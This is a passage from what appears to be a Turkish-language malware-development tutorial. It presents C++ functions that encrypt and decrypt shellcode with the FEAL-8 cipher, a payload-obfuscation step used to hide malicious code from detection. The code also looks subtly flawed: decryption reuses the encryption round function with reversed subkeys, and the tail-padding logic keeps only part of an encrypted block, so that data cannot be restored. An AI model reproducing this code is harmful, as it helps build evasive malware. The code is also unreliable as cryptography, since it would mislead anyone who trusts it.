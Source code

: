 Bu fonksiyon, `FEAL-8` algoritmasını kullanarak `64-bit`lik bir veri bloğunu şifreler (iki `32-bit`lik yarıya bölünmüş: `left` ve `right`). Her turda uygun tur anahtarı ile `G` fonksiyonunu uygulayarak `8 tur` boyunca şifreleme işlemini gerçekleştirir.    

Şifre çözme mantığı:    

```cpp
// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}
```

Ve shellcode şifreleme ve şifre çözme mantığı:    

```cpp
// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using FEAL-8
void feal8_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_decrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes with padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
    { 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90 };
    memcpy(pad, ptr, remaining);
    feal8_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}
```